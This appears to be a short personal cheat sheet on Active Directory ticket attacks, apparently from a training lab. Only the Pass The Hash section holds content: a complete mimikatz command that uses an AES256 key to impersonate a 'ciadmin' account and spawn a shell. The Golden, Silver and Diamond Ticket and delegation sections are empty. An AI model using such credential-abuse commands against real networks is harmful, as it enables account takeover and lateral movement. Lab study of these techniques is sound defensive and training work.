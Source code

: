 # Tickets

## Pass The Hash
```
C:\AD\Tools\mimikatz.exe "privilege::debug" "sekurlsa::pth /domain:dollarcorp.moneycorp.local /user:ciadmin /aes256:1bbe86f1b5285109dd1450b55ed8851c220b81cc187f9af64e4048ed25083879 /run:cmd" "exit"
```

## Golden Ticket
```
```

## Silver Ticket
```
```

## Golden Ticket intra-forest domain
```
```

## Diamon Ticket
```
```

## Constrained Delegation
```
```

## Unconstrained Delegation
```
```
